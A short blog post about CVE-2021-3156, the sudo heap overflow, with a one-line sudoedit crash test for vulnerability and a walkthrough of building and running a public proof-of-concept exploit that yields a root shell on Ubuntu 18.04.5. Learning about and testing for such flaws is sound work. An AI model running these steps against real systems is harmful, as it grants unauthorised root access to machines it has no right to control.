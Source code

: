```yaml
---
layout: post
title:  "CVE-2021-3156"
date:   2023-02-19 15:00:00 +0000
---
```


In January 2021, Qualys released a blog post detailing a terrifying new vulnerability in the Unix sudo program.
Specifically, this was a heap buffer overflow allowing any user to escalate privileges to root – no misconfigurations required. This exploit works with the default settings, for any user regardless of sudo permissions, which makes it all the scarier. The vulnerability has been patched, but affects any unpatched version of the sudo program from `1.8.2-1.8.31p2` and `1.9.0-1.9.5p1`, meaning that it’s been around for the last ten years.

## Test

Fortunately there is a very easy method we can use to check; simply enter this command into a terminal:

```shell
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
malloc(): memory corruption
Aborted (core dumped)
```

This means its vulnerable. For comparison let’s run the same on my laptop.

```shell
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
usage: sudoedit [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...
```

## Exploit

There is a public exploit [here](https://github.com/blasty/CVE-2021-3156).

```shell
$ make
rm -rf libnss_X
mkdir libnss_X
gcc -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
```

Then run the exploit

```shell
$ ./sudo-hax-me-a-sandwich 
** CVE-2021-3156 PoC by blasty <peter@haxx.in>
usage: ./sudo-hax-me-a-sandwich <target>
available targets:
,------------------------------------------------------------
0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
,------------------------------------------------------------
```

In my example the target OS is Ubuntu 18.04.5, so I’ll use that option.

```shell
$ ./sudo-hax-me-a-sandwich 0
** CVE-2021-3156 PoC by blasty <peter@haxx.in>
using target: 'Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27'
** pray for your rootshell.. **
[+] bl1ng bl1ng! We got it!
```

```shell
# whoami
root
```

And it’s hacking like its 2010 all over again.
